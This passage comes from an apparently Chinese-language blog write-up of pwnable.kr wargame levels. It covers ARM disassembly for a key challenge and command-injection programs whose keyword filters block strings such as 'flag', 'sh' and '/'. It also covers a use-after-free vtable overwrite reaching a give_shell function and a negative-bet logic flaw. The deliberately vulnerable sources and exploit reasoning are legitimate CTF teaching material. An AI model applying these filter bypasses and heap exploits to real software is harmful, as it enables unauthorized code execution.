&lt;+16&gt;:	str	r3, [r11, <span class="comment">#-16]</span></span><br><span class="line">   0x00008d50 &lt;+20&gt;:	ldr	r0, [pc, <span class="comment">#104]	; 0x8dc0 &lt;main+132&gt;</span></span><br><span class="line">   0x00008d54 &lt;+24&gt;:	bl	0xfb6c &lt;<span class="built_in">printf</span>&gt;</span><br><span class="line">   0x00008d58 &lt;+28&gt;:	sub	r3, r11, <span class="comment">#16</span></span><br><span class="line">   0x00008d5c &lt;+32&gt;:	ldr	r0, [pc, <span class="comment">#96]	; 0x8dc4 &lt;main+136&gt;</span></span><br><span class="line">   0x00008d60 &lt;+36&gt;:	mov	r1, r3</span><br><span class="line">   0x00008d64 &lt;+40&gt;:	bl	0xfbd8 &lt;__isoc99_scanf&gt;</span><br><span class="line">   0x00008d68 &lt;+44&gt;:	bl	0x8cd4 &lt;key1&gt;</span><br><span class="line">   0x00008d6c &lt;+48&gt;:	mov	r4, r0</span><br><span class="line">   0x00008d70 &lt;+52&gt;:	bl	0x8cf0 &lt;key2&gt;</span><br><span class="line">   0x00008d74 &lt;+56&gt;:	mov	r3, r0</span><br><span class="line">   0x00008d78 &lt;+60&gt;:	add	r4, r4, r3</span><br><span class="line">   0x00008d7c &lt;+64&gt;:	bl	0x8d20 &lt;key3&gt;</span><br><span class="line">   0x00008d80 &lt;+68&gt;:	mov	r3, r0          ;lr</span><br><span class="line">   0x00008d84 &lt;+72&gt;:	add	r2, r4, r3</span><br><span class="line">   0x00008d88 &lt;+76&gt;:	ldr	r3, [r11, <span class="comment">#-16]</span></span><br><span class="line">   0x00008d8c &lt;+80&gt;:	cmp	r2, r3</span><br><span class="line">   0x00008d90 &lt;+84&gt;:	bne	0x8da8 &lt;main+108&gt;</span><br><span class="line">   0x00008d94 &lt;+88&gt;:	ldr	r0, [pc, <span class="comment">#44]	; 0x8dc8 &lt;main+140&gt;</span></span><br><span class="line">   0x00008d98 &lt;+92&gt;:	bl	0x1050c &lt;puts&gt;</span><br><span class="line">   0x00008d9c &lt;+96&gt;:	ldr	r0, [pc, <span class="comment">#40]	; 0x8dcc &lt;main+144&gt;</span></span><br><span class="line">   0x00008da0 &lt;+100&gt;:	bl	0xf89c &lt;system&gt;</span><br><span class="line">   0x00008da4 &lt;+104&gt;:	b	0x8db0 &lt;main+116&gt;</span><br><span class="line">   0x00008da8 &lt;+108&gt;:	ldr	r0, [pc, <span class="comment">#32]	; 0x8dd0 &lt;main+148&gt;</span></span><br><span class="line">   0x00008dac &lt;+112&gt;:	bl	0x1050c &lt;puts&gt;</span><br><span class="line">   0x00008db0 &lt;+116&gt;:	mov	r3, <span class="comment">#0</span></span><br><span class="line">   0x00008db4 &lt;+120&gt;:	mov	r0, r3</span><br><span class="line">   0x00008db8 &lt;+124&gt;:	sub	sp, r11, <span class="comment">#8</span></span><br><span class="line">   0x00008dbc &lt;+128&gt;:	pop	&#123;r4, r11, pc&#125;</span><br><span class="line">   0x00008dc0 &lt;+132&gt;:	andeq	r10, r6, r12, lsl <span class="comment">#9</span></span><br><span class="line">   0x00008dc4 &lt;+136&gt;:	andeq	r10, r6, r12, lsr <span class="comment">#9</span></span><br><span class="line">   0x00008dc8 &lt;+140&gt;:			; &lt;UNDEFINED&gt; instruction: 0x0006a4b0</span><br><span class="line">   0x00008dcc &lt;+144&gt;:			; &lt;UNDEFINED&gt; instruction: 0x0006a4bc</span><br><span class="line">   0x00008dd0 &lt;+148&gt;:	andeq	r10, r6, r4, asr <span class="comment">#9</span></span><br><span class="line">End of assembler dump.</span><br><span class="line">(gdb) disass key1</span><br><span class="line">Dump of assembler code <span class="keyword">for</span> <span class="keyword">function</span> key1:</span><br><span class="line">   0x00008cd4 &lt;+0&gt;:    	push	&#123;r11&#125;		; (str r11, [sp, <span class="comment">#-4]!)</span></span><br><span class="line">   0x00008cd8 &lt;+4&gt;:	    add	r11, sp, <span class="comment">#0</span></span><br><span class="line">   0x00008cdc &lt;+8&gt;:	    mov	r3, pc      ;pc = 0x00008cdc + 0x8 = 0x00008ce4</span><br><span class="line">   0x00008ce0 &lt;+12&gt;:	mov	r0, r3</span><br><span class="line">   0x00008ce4 &lt;+16&gt;:	sub	sp, r11, <span class="comment">#0</span></span><br><span class="line">   0x00008ce8 &lt;+20&gt;:	pop	&#123;r11&#125;		; (ldr r11, [sp], <span class="comment">#4)</span></span><br><span class="line">   0x00008cec &lt;+24&gt;:	bx	lr</span><br><span class="line">End of assembler dump.</span><br><span class="line">(gdb) disass key2</span><br><span class="line">Dump of assembler code <span class="keyword">for</span> <span class="keyword">function</span> key2:</span><br><span class="line">   0x00008cf0 &lt;+0&gt;:	push	&#123;r11&#125;		; (str r11, [sp, <span class="comment">#-4]!)</span></span><br><span class="line">   0x00008cf4 &lt;+4&gt;:	add	r11, sp, <span class="comment">#0</span></span><br><span class="line">   0x00008cf8 &lt;+8&gt;:	push	&#123;r6&#125;		; (str r6, [sp, <span class="comment">#-4]!)</span></span><br><span class="line">   0x00008cfc &lt;+12&gt;:	add	r6, pc, <span class="comment">#1</span></span><br><span class="line">   0x00008d00 &lt;+16&gt;:	bx	r6</span><br><span class="line">   0x00008d04 &lt;+20&gt;:	mov	r3, pc</span><br><span class="line">   0x00008d06 &lt;+22&gt;:	adds	r3, <span class="comment">#4</span></span><br><span class="line">   0x00008d08 &lt;+24&gt;:	push	&#123;r3&#125;</span><br><span class="line">   0x00008d0a &lt;+26&gt;:	pop	&#123;pc&#125;</span><br><span class="line">   0x00008d0c &lt;+28&gt;:	pop	&#123;r6&#125;		; (ldr r6, [sp], <span class="comment">#4)</span></span><br><span class="line">   0x00008d10 &lt;+32&gt;:	mov	r0, r3</span><br><span class="line">   0x00008d14 &lt;+36&gt;:	sub	sp, r11, <span class="comment">#0</span></span><br><span class="line">   0x00008d18 &lt;+40&gt;:	pop	&#123;r11&#125;		; (ldr r11, [sp], <span class="comment">#4)</span></span><br><span class="line">   0x00008d1c &lt;+44&gt;:	bx	lr</span><br><span class="line">End of assembler dump.</span><br><span class="line">(gdb) disass key3</span><br><span class="line">Dump of assembler code <span class="keyword">for</span> <span class="keyword">function</span> key3:</span><br><span class="line">   0x00008d20 &lt;+0&gt;:	push	&#123;r11&#125;		; (str r11, [sp, <span class="comment">#-4]!)</span></span><br><span class="line">   0x00008d24 &lt;+4&gt;:	add	r11, sp, <span class="comment">#0</span></span><br><span class="line">   0x00008d28 &lt;+8&gt;:	mov	r3, lr</span><br><span class="line">   0x00008d2c &lt;+12&gt;:	mov	r0, r3</span><br><span class="line">   0x00008d30 &lt;+16&gt;:	sub	sp, r11, <span class="comment">#0</span></span><br><span class="line">   0x00008d34 &lt;+20&gt;:	pop	&#123;r11&#125;		; (ldr r11, [sp], <span class="comment">#4)</span></span><br><span class="line">   0x00008d38 &lt;+24&gt;:	bx	lr</span><br><span class="line">End of assembler dump.</span><br><span class="line">(gdb)</span><br></pre></td></tr></table></figure>
<p>分析之后发现key1是pc的值：0x00008ce4<br>key2 = 0x00008d0c<br>key3 = 0x00008d80</p>
<p>所以key = key1 + key2 + key3 = 0x00008ce4+0x00008d0c+0x00008d80=0x00001a770 = 108400(d)<br></p>
<h2 id="cmd1"><a href="#cmd1" class="headerlink" title="cmd1"></a>cmd1</h2><figure class="highlight c"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;stdio.h&gt;</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;string.h&gt;</span></span></span><br><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">int</span> <span class="title">filter</span><span class="params">(<span class="keyword">char</span>* cmd)</span></span>&#123;</span><br><span class="line">	<span class="keyword">int</span> r=<span class="number">0</span>;</span><br><span class="line">    <span class="comment">//若str2是str1的子串，则先确定str2在str1的第一次出现的位置，并返回此str1在str2首位置的地址。;如果str2不是str1的子串，则返回NULL。</span></span><br><span class="line">	r += <span class="built_in">strstr</span>(cmd, <span class="string">"flag"</span>)!=<span class="number">0</span>;</span><br><span class="line">	r += <span class="built_in">strstr</span>(cmd, <span class="string">"sh"</span>)!=<span class="number">0</span>;</span><br><span class="line">	r += <span class="built_in">strstr</span>(cmd, <span class="string">"tmp"</span>)!=<span class="number">0</span>;</span><br><span class="line">	<span class="keyword">return</span> r;</span><br><span class="line">&#125;</span><br><span class="line"><span class="function"><span class="keyword">int</span> <span class="title">main</span><span class="params">(<span class="keyword">int</span> argc, <span class="keyword">char</span>* argv[], <span class="keyword">char</span>** envp)</span></span>&#123;</span><br><span class="line">	putenv(<span class="string">"PATH=/fuckyouverymuch"</span>);</span><br><span class="line">	<span class="keyword">if</span>(filter(argv[<span class="number">1</span>])) <span class="keyword">return</span> <span class="number">0</span>;</span><br><span class="line">	system( argv[<span class="number">1</span>] );</span><br><span class="line">	<span class="keyword">return</span> <span class="number">0</span>;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<p>不能出现flag，sh,tmp这些字符串，那就分开传=-=<br></p>
<h2 id="cmd2"><a href="#cmd2" class="headerlink" title="cmd2"></a>cmd2</h2><figure class="highlight c"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;stdio.h&gt;</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;string.h&gt;</span></span></span><br><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">int</span> <span class="title">filter</span><span class="params">(<span class="keyword">char</span>* cmd)</span></span>&#123;</span><br><span class="line">	<span class="keyword">int</span> r=<span class="number">0</span>;</span><br><span class="line">	r += <span class="built_in">strstr</span>(cmd, <span class="string">"="</span>)!=<span class="number">0</span>;  </span><br><span class="line">	r += <span class="built_in">strstr</span>(cmd, <span class="string">"PATH"</span>)!=<span class="number">0</span>;</span><br><span class="line">	r += <span class="built_in">strstr</span>(cmd, <span class="string">"export"</span>)!=<span class="number">0</span>;</span><br><span class="line">	r += <span class="built_in">strstr</span>(cmd, <span class="string">"/"</span>)!=<span class="number">0</span>;</span><br><span class="line">	r += <span class="built_in">strstr</span>(cmd, <span class="string">"`"</span>)!=<span class="number">0</span>;</span><br><span class="line">	r += <span class="built_in">strstr</span>(cmd, <span class="string">"flag"</span>)!=<span class="number">0</span>;</span><br><span class="line">	<span class="keyword">return</span> r;</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="keyword">extern</span> <span class="keyword">char</span>** environ; <span class="comment">//用来打印环境变量</span></span><br><span class="line"><span class="function"><span class="keyword">void</span> <span class="title">delete_env</span><span class="params">()</span></span>&#123;</span><br><span class="line">	<span class="keyword">char</span>** p;</span><br><span class="line">	<span class="keyword">for</span>(p=environ; *p; p++)	<span class="built_in">memset</span>(*p, <span class="number">0</span>, <span class="built_in">strlen</span>(*p));</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">int</span> <span class="title">main</span><span class="params">(<span class="keyword">int</span> argc, <span class="keyword">char</span>* argv[], <span class="keyword">char</span>** envp)</span></span>&#123;</span><br><span class="line">	delete_env();</span><br><span class="line">	putenv(<span class="string">"PATH=/no_command_execution_until_you_become_a_hacker"</span>);</span><br><span class="line">	<span class="keyword">if</span>(filter(argv[<span class="number">1</span>])) <span class="keyword">return</span> <span class="number">0</span>;</span><br><span class="line">	<span class="built_in">printf</span>(<span class="string">"%s\n"</span>, argv[<span class="number">1</span>]);</span><br><span class="line">	system( argv[<span class="number">1</span>] );</span><br><span class="line">	<span class="keyword">return</span> <span class="number">0</span>;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<p>解法很多，不允许修改环境变量，但是不禁pwd命令，用下面的命令cat flag：<br></p>
<h2 id="UAF"><a href="#UAF" class="headerlink" title="UAF"></a>UAF</h2><p>Use After Free简称UAF，是一种常见的堆漏洞利用方式。具体可查看下面这个博客：<a href="http://www.evil0x.com/posts/24881.html" target="_blank" rel="noopener">http://www.evil0x.com/posts/24881.html</a></p>
<p>在做题前先了解一些虚函数表：<a href="http://blog.csdn.net/haoel/article/details/1948051" target="_blank" rel="noopener">http://blog.csdn.net/haoel/article/details/1948051</a></p>
<p>可以用这个命令将文件拷贝到本地：<br><figure class="highlight c"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">scp -p <span class="number">2222</span> uaf@pwnable.kr:uaf /home/edvison/pwn_work  <span class="comment">//注意P要大写orz</span></span><br></pre></td></tr></table></figure></p>
<figure class="highlight cpp"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br><span class="line">56</span><br><span class="line">57</span><br><span class="line">58</span><br><span class="line">59</span><br><span class="line">60</span><br><span class="line">61</span><br><span class="line">62</span><br><span class="line">63</span><br><span class="line">64</span><br><span class="line">65</span><br><span class="line">66</span><br><span class="line">67</span><br><span class="line">68</span><br><span class="line">69</span><br><span class="line">70</span><br><span class="line">71</span><br><span class="line">72</span><br><span class="line">73</span><br><span class="line">74</span><br><span class="line">75</span><br><span class="line">76</span><br><span class="line">77</span><br><span class="line">78</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;fcntl.h&gt;</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;iostream&gt; </span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;cstring&gt;</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;cstdlib&gt;</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;unistd.h&gt;</span></span></span><br><span class="line"><span class="keyword">using</span> <span class="keyword">namespace</span> <span class="built_in">std</span>;</span><br><span class="line"></span><br><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">Human</span>&#123;</span></span><br><span class="line"><span class="keyword">private</span>:</span><br><span class="line">	<span class="function"><span class="keyword">virtual</span> <span class="keyword">void</span> <span class="title">give_shell</span><span class="params">()</span></span>&#123;</span><br><span class="line">		system(<span class="string">"/bin/sh"</span>);</span><br><span class="line">	&#125;</span><br><span class="line"><span class="keyword">protected</span>:</span><br><span class="line">	<span class="keyword">int</span> age;</span><br><span class="line">	<span class="built_in">string</span> name;</span><br><span class="line"><span class="keyword">public</span>:</span><br><span class="line">	<span class="function"><span class="keyword">virtual</span> <span class="keyword">void</span> <span class="title">introduce</span><span class="params">()</span></span>&#123;</span><br><span class="line">		<span class="built_in">cout</span> &lt;&lt; <span class="string">"My name is "</span> &lt;&lt; name &lt;&lt; <span class="built_in">endl</span>;</span><br><span class="line">		<span class="built_in">cout</span> &lt;&lt; <span class="string">"I am "</span> &lt;&lt; age &lt;&lt; <span class="string">" years old"</span> &lt;&lt; <span class="built_in">endl</span>;</span><br><span class="line">	&#125;</span><br><span class="line">&#125;;</span><br><span class="line"></span><br><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">Man</span>:</span> <span class="keyword">public</span> Human&#123;</span><br><span class="line"><span class="keyword">public</span>:</span><br><span class="line">	Man(<span class="built_in">string</span> name, <span class="keyword">int</span> age)&#123;</span><br><span class="line">		<span class="keyword">this</span>-&gt;name = name;</span><br><span class="line">		<span class="keyword">this</span>-&gt;age = age;</span><br><span class="line">        &#125;</span><br><span class="line">        <span class="function"><span class="keyword">virtual</span> <span class="keyword">void</span> <span class="title">introduce</span><span class="params">()</span></span>&#123;</span><br><span class="line">		Human::introduce();</span><br><span class="line">                <span class="built_in">cout</span> &lt;&lt; <span class="string">"I am a nice guy!"</span> &lt;&lt; <span class="built_in">endl</span>;</span><br><span class="line">        &#125;</span><br><span class="line">&#125;;</span><br><span class="line"></span><br><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">Woman</span>:</span> <span class="keyword">public</span> Human&#123;</span><br><span class="line"><span class="keyword">public</span>:</span><br><span class="line">        Woman(<span class="built_in">string</span> name, <span class="keyword">int</span> age)&#123;</span><br><span class="line">                <span class="keyword">this</span>-&gt;name = name;</span><br><span class="line">                <span class="keyword">this</span>-&gt;age = age;</span><br><span class="line">        &#125;</span><br><span class="line">        <span class="function"><span class="keyword">virtual</span> <span class="keyword">void</span> <span class="title">introduce</span><span class="params">()</span></span>&#123;</span><br><span class="line">                Human::introduce();</span><br><span class="line">                <span class="built_in">cout</span> &lt;&lt; <span class="string">"I am a cute girl!"</span> &lt;&lt; <span class="built_in">endl</span>;</span><br><span class="line">        &#125;</span><br><span class="line">&#125;;</span><br><span class="line"><span class="function"><span class="keyword">int</span> <span class="title">main</span><span class="params">(<span class="keyword">int</span> argc, <span class="keyword">char</span>* argv[])</span></span>&#123;</span><br><span class="line">	Human* m = <span class="keyword">new</span> Man(<span class="string">"Jack"</span>, <span class="number">25</span>);</span><br><span class="line">	Human* w = <span class="keyword">new</span> Woman(<span class="string">"Jill"</span>, <span class="number">21</span>);</span><br><span class="line"></span><br><span class="line">	<span class="keyword">size_t</span> len;</span><br><span class="line">	<span class="keyword">char</span>* data;</span><br><span class="line">	<span class="keyword">unsigned</span> <span class="keyword">int</span> op;</span><br><span class="line">	<span class="keyword">while</span>(<span class="number">1</span>)&#123;</span><br><span class="line">		<span class="built_in">cout</span> &lt;&lt; <span class="string">"1. use\n2. after\n3. free\n"</span>;</span><br><span class="line">		<span class="built_in">cin</span> &gt;&gt; op;</span><br><span class="line"></span><br><span class="line">		<span class="keyword">switch</span>(op)&#123;</span><br><span class="line">			<span class="keyword">case</span> <span class="number">1</span>:  <span class="comment">//调用两个类函数</span></span><br><span class="line">				m-&gt;introduce();</span><br><span class="line">				w-&gt;introduce();</span><br><span class="line">				<span class="keyword">break</span>;</span><br><span class="line">			<span class="keyword">case</span> <span class="number">2</span>:  <span class="comment">//分配data空间,从文件argv[2]中读取长度为argc[1]的字符到data</span></span><br><span class="line">				len = atoi(argv[<span class="number">1</span>]);</span><br><span class="line">				data = <span class="keyword">new</span> <span class="keyword">char</span>[len];</span><br><span class="line">				read(open(argv[<span class="number">2</span>], O_RDONLY), data, len);</span><br><span class="line">				<span class="built_in">cout</span> &lt;&lt; <span class="string">"your data is allocated"</span> &lt;&lt; <span class="built_in">endl</span>;</span><br><span class="line">				<span class="keyword">break</span>;</span><br><span class="line">			<span class="keyword">case</span> <span class="number">3</span>:  <span class="comment">//释放对象</span></span><br><span class="line">				<span class="keyword">delete</span> m;</span><br><span class="line">				<span class="keyword">delete</span> w;</span><br><span class="line">				<span class="keyword">break</span>;</span><br><span class="line">			<span class="keyword">default</span>:</span><br><span class="line">				<span class="keyword">break</span>;</span><br><span class="line">		&#125;</span><br><span class="line">	&#125;</span><br><span class="line"></span><br><span class="line">	<span class="keyword">return</span> <span class="number">0</span>;	</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<p>这里如果先执行3再执行1就触发了uaf漏洞。<br><br>我们的目的是把introduce函数的指针覆盖为give_shell的指针，然后就能执行1调用shell了</p>
<p>查找到getshell和introduce的地址：<br></p>
<p>看main函数的汇编代码，可以发现给每个对象分配了0x18(24)个字节的内存空间：<br></p>
<p>在后面调用的Man构造函数里发现了vtable：<br></p>
<p></p>
<p>在main函数里可以看到这个v13,就是vptr，转换为指针取其中的数据就是vtable的第一个值，加8就是introduce的函数指针。<br></p>
<p>然后要让v13+8指向get_shell，就是vtable+8 = 0x401570，所以vtable的值取0x401568.<br><br> 读取24字节的字符到data。这里要allocate两次，因为是先free的m，再free的w，因此在分配内存的时候优先分配到后释放的w，所以要先申请一次空间，将w分配出去，再分配到m。<br></p>
<h2 id="blackjack"><a href="#blackjack" class="headerlink" title="blackjack"></a>blackjack</h2><p>nc pwnable.kr 9009<br><br>代码有点长，不复制了。由于它只检查bet是否小于cash，并没有检查是否为负数，我们可以直接输入-1000000然后全部hit，就得到100000了=-=<br></p>
<h2 id="asm"><a href="#asm" class="headerlink" title="asm"></a>asm</h2><p>程序通过使用seccomp只允许应用程序调用 exit(), sigreturn(), read() 和 write() 四种系统调用来达到沙箱的效果。<br><br>关于seccomp可查看<a href="https://tech.liuchao.me/tag/seccomp/" target="_blank" rel="noopener">https://tech.liuchao.me/tag/seccomp/</a> </p>
<figure class="highlight c"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span 